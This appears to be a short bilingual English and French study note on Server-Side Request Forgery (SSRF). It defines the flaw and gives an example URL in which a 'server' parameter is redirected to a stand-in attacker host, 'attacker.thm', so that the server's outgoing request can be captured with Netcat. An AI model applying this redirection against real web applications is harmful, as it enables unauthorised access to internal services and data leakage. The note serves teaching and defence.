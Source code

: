 # (SSRF) Server Site Request Forgery

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself.  SSRF vulnerabilities often arise from implementations where our web application needs to use third-party services. 

En français : 


La vulnérabilité provient d'une requête efféctuée par le serveur vers un 2ème serveur.  
Cela peut se produire dans le cas où le serveur cible à besoin de requeter un 3ème système.  
La vulnérabilité est fondée lorsque l'utilisateur peut impacter la requete vers le 3ème server.  
D'où SERVER SIDE REQUEST FORGERY  

Exemple : (Par défault, la requête de ce site provient avec ces paramètres)  
https://www.mysite.com/sms?server=srv3.sms.txt&msg=hello

On peut donc la modifier comme suit :  

https://www.mysite.com/sms?server=attacker.thm&msg=ABC

This would make the vulnerable web application make a request to:

https://attacker.thm/api/send?msg=ABC 

You could then just capture the contents of the request using Netcat